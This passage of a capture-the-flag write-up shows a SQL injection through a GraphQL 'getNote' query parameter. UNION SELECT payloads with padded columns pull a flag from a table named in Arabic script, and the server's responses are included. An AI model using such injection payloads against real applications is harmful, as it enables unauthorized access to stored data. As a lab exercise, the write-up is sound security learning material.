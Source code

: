 ```
    }
  ],
  "data": {
    "getNote": [
      null,
      null,
      null,
      null,
      null
    ]
  }
}
```

The last table name has non-English characters in it so it caught my attention.

Let's try to see what is in it!


```
query{
  getNote(q: "' union select * العلم; --"){
    uuid
    title
    body
    authorId
    id
  }
}
```

This gave an error about the wrong number of columns.  So I tried adding some dummy values until I hit this:

```
query{
  getNote(q: "' union select *,1,2 from العلم; --"){
    uuid
    title
    body
    authorId
    id
  }
}
```

This worked and returned:

```
{
  "errors": [
    {
      "message": "Received incompatible instance \"(0, \"flag{h0p3_u_can't_r3@d_1t9176}\", 1, 2)\"."
    }
  ],
  "data": {
    "getNote": [
      null
    ]
  }
}
```

And so we got the flag. :)

